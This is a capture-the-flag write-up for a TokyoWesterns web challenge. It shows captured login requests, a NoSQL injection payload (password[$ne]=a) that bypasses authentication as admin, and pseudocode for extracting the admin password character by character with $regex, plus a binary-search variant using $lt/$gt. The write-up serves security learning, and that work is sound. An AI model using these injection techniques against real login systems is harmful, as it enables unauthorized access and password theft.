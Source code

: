 # Get the admin password! writeup(nosqli)

The challenge is to get the admin password(the flag), as help we have a valid login credential test:test [link to get the admin password.](http://gap.chal.ctf.westerns.tokyo/login.php)

Let's begin to fire up burp suite and ispect the HTTP traffic.

```
POST /login.php HTTP/1.1
Host: gap.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gap.chal.ctf.westerns.tokyo/login.php
Cookie: PHPSESSID=1fkfqnd5bldo58srnviecig305
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

user=test&password=test
```
3 possible parameter to try _injection_ : **PHPSESSID**, **user** and **password**.
And 2 possible approach:

* SQLi
* NoSQLI

#### SQLi
Start `pirate$ sqlmap -r tosqli(The POST Request above) --dbs (Try different level and econding)` and... _Nothing_!

#### NoSQLi

Spend some time in fuzzing hope to raise some error, but nothing... 
Next step: Try password with condition!!!

From the Sequencer:
```
POST /login.php HTTP/1.1
Host: gap.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gap.chal.ctf.westerns.tokyo/login.php
Cookie: PHPSESSID=1fkfqnd5bldo58srnviecig305
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

user=admin&password[$ne]=a
```
Explained: Login is successful if password is not equal($ne) to a

The response:

```
You are admin.
The flag is admin password. Admin password format is "TWCTF{...}". 
```

Ok, now run a simple script that guess every single char until '}'(end of flag).

The naif algo(pseudo-code) O(n) and very slow(about 10' on my PC):
```
flag=""

while True:
	for guess in range(!...}): # the charset
		
		# Login if password[$regex]=^+flag+guess
		if request(flag+guess):
			flag += guess
			
			if guess == '}':
				quit()
			else:
				break 
```

My alternative is to use a Binary(Dicotomic)Search to improve the Search O(log(n)) and less than 3'.
The intuition is to use the $lt(lower than) or $gt(greater than) to restrict the window of the char to guess in the charset; look at `nosqli.py` to see the implementation. 









